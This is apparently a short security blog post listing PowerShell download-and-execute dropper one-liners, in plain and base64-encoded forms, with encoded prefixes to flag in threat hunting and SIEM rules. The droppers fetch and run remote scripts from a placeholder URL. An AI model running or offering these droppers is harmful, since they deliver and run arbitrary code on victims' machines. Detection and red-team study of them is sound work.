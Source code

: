```yaml
---
layout: post
title:  "Powershell Scripts for Red Teaming"
date:   2025-06-16 21:00:00 +1000
categories: scripts
---
```


## Red teaming powershell scripts. Droppers and more.

Things to look out for when threat hunting and creating SIEM rules. Also helpful for red teaming/malware development

---

### Droppers
Unencoded droppers
- ``` powershell -Command "Invoke-WebRequest -Uri 'https://google.com/safe-script.ps1' -OutFile $env:TEMP\Word.ps1; & $env:TEMP\Word.ps1" ``` (Downloads to disk)
- ``` powershell -Command "iex(New-Object Net.WebClient).DownloadString('https://google.com/safe-script.ps1')" ``` (Downloads to memory)
Encoded
- ```powershell -EncodedCommand cABvAHcAZQByAHMAaABlAGwAbAAgAC0AQwBvAG0AbQBhAG4AZAAgACIASQBuAHYAbwBrAGUALQBXAGUAYgBSAGUAcQB1AGUAcwB0ACAALQBVAHIAaQAgACcAaAB0AHQAcABzADoALwAvAGcAbwBvAGcAbABlAC4AYwBvAG0ALwBzAGEAZgBlAC0AcwBjAHIAaQBwAHQALgBwAHMAMQAnACAALQBPAHUAdABGAGkAbABlACAAJABlAG4AdgA6AFQARQBNAFAAXABXAG8AcgBkAC4AcABzADEAOwAgACYAIAAkAGUAbgB2ADoAVABFAE0AUABcAFcAbwByAGQALgBwAHMAMQAiAA==```
- ```powershell -EncodedCommand cABvAHcAZQByAHMAaABlAGwAbAAgAC0AQwBvAG0AbQBhAG4AZAAgACIAaQBlAHgAKABOAGUAdwAtAE8AYgBqAGUAYwB0ACAATgBlAHQALgBXAGUAYgBDAGwAaQBlAG4AdAApAC4ARABvAHcAbgBsAG8AYQBkAFMAdAByAGkAbgBnACgAJwBoAHQAdABwAHMAOgAvAC8AZwBvAG8AZwBsAGUALgBjAG8AbQAvAHMAYQBmAGUALQBzAGMAcgBpAHAAdAAuAHAAcwAxACcAKQAiAA==```
Patterns to look out for when threat hunting as potentially malicious base64 encoded commands
- SQBuAHYAbwBrAGUALQBX (Invoke-WebRequest)
- aQBlAHgAIAAoAE4AZQB3 (iex (New-Object Net.WebClient))
